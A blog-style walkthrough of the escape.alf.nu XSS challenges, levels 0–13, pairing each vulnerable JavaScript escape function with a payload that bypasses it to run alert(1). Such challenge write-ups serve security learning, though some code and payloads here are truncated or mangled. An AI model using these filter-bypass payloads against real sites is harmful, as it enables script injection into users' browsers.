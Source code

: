 ```yaml
---
layout: post
title:  "Escape.alf.nu walkthrough"
subtitle: 'Web 300 - Java Serialization'
date:   2017-01-23 00:06:31
tags:
- escape.alf.nu, JavaScript
---
```

There are many solutions to Erling Ellingsen’s <a href="https://alf.nu/alert1">escape.alf.nu</a> XSS challenges and I will be giving the solutions to first few challenges in the set.
I suggest <b>not to</b> read the write-up before you attempting it. It can take several days to solve the challenges depending on the amount of knowledge you’ve on the same. It took me several days to complete up till the first three challenges and I’d be posting here on how to tackle them effectively and also the key points to note upon while solving the challenges.

`Level 0`:
{% highlight JavaScript %}
function escape(s) {
  // Warmup.

  return 'console.log("'+s+'");';
}
{% endhighlight %}

Point to be noted to here is first we have to close the `console.log` and then fulfil with the requirement we want.

<b>Solution</b>: `");alert(1);//`


`Level 1`:
{% highlight JavaScript %}
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return 'console.log("' + s + '");';
}
{% endhighlight %}

The key point in the next level is that the `s.replace(/""/g, '//"/');` replaces the `"` as `/"` for which we simply have to escape the backslash.

<b>Solution</b>: `\");alert(1);//`

`Level 2`
{% highlight JavaScript %}
function escape(s) {
  s = JSON.stringify(s);
  return 'console.log(' + s + ');';
}
{% endhighlight %}

Pointed to be noted here is with the function `JSON.stringify(s);` which will escape double quotes `“` into `/”` but then we can see that it doesn’t escape `<>` brackets. So what suddenly struck me was to make a script block and then execute `alert(1)` in it.

<b>Solution</b>: `</script>alert(1)`

`Level 3`
{%highlight JavaScript %}
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
{% endhighlight %}

Point to be noted here is that `console.log(url)` which make us enable to use URL encoding for double quotes because it’s being escaped here.

<b>Solution</b>: `%22);alert(1);//`

`Level 4`
{% highlight JavaScript %}
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

Point to be noted here is that `<` is being globally replaced by `&lt` and `“` is being replaced once by `&quot` . Then I noticed how it is being replaced and then I split the whole thing up inside the `text.replace()` and then arrived at the solution. Moreover the escape function uses a template like `[[src|alt]]`.

<b>Solution</b>: `[[a|””onload=alert(1);//]]`

It will be rendered as:

`<img src=”a.gif” onload=”alert(1)” alt”““>`

`Level 5`
{% highlight JavaScript %}
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

There were two points to be noted. One was that in the comment part which made me realize that it had similarity to that of the previous question and even before reading the rest, I tried the previous payload which didn’t work. Later I went through the rest of the code and figured out that it was in an http context.

<b>Solution</b>: `[[a|http://onload=alert(1);//]]`

`Level 6`
{% highlight JavaScript %}
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
{% endhighlight %}

First I noticed the comment section and figured out how `TextNode#foo` would show up and it just showed `foo`. Then I started reviewing all the functions in the DOM that begin with `create` as it is there in the function. Then I figured out the `createComment` from which I tried giving `Comment#foo` which showed `<!–<foo>–>` from which it made easy for the solution.

<b>Solution</b>:  `Comment#><svg/onload=alert(1)`

`Level 7`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Pointed to be noted here was that, first I gave input as there in the comment part and tried to analyse how it being rendered. Then I tried to play with it such that `alert(1)` gets executed.

<b>Solution</b>: `‘#’;alert(1)//`

`Level 8`

{% highlight JavaScript %}
function escape(s) {
  // Courtesy of Skandiabanken
  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

Here, the point to be noted was that, the string which you enter is converted into uppercase. Hence we need to figure a way out to print `alert(1)`. Why not try <i>JSfuck</i>?

<b>Solution</b>: `“);<alert(1)` in JSfuck>;//


`Level 9`
{% highlight JavaScript %}
function escape(s) {
  // This is sort of a spoiler for the last level 🙂

  if (/[\\<>]/.test(s)) return '-';

  return 'console.log("' + s.toUpperCase() + '")';
}
{% endhighlight %}

This is the same thing as the previous case and would suggest the same solution that is by using JSFuck.

`Level 10`
{% highlight JavaScript %}
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": ''' }[x] || x;       
     });
  }

  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }

  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
                                             \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '{name}';       \n\
                                           \n\
    ",
    { name : s }
  );
}
{% endhighlight %}

Here once we try to execute, we can see that etc all are filtered except `‘ \ ‘`. So we convert to octal and then give.

<b>Solution</b>:  `\74svg onload=alert(1)\76`

`Level 11`
{% highlight JavaScript %}
function escape(s) {
  // Spoiler for level 2
  s = JSON.stringify(s).replace(/

  return 'console.log(' + s + ');';
}
{% endhighlight %}

What happens here is that it just takes escapes `‘\’` and `‘ ” ‘` and not `<` brackets and so after that function returns the values, it again gets checked for `“<”` and replace it globally with `” “`.

<b>Solution</b>: `</</scriptscript>alert(1);//`

`Level 12`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/\//g, '\\/');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Point to be noted is that backslashes are also being filtered and want to find a way out to comment it out and that is by `<!–`

<b>Solution</b>: `‘#’;alert(1)<!–`

`Level 13`
{% highlight JavaScript %}
function escape(s) {
  var tag = document.createElement('iframe');

  // For this one, you get to run any code you want, but in a "sandboxed" iframe.
  //
  // http://print.alf.nu/?html=... just outputs whatever you pass in.
  //
  // Alerting from print.alf.nu won't count; try to trigger the one below.

  s = '<script>' + s + '<\/script>';
  tag.src = 'http://print.alf.nu/?html=' + encodeURIComponent(s);

  window.WINNING = function() { youWon = true; };

  tag.onload = function() {
    if (youWon) alert(1);
  };
  document.body.appendChild(tag);
}
{% endhighlight %}

iFrame has got a feature. It is setting the name attribute on an iFrame sets the name of the property in the global window object.

<b>Solution</b>: `name=’youWon’`

The rest of the solutions will be updated later. Do subscribe and raise questions if anything over here <a href="https://twitter.com/gkgkrishna33">Twitter</a>
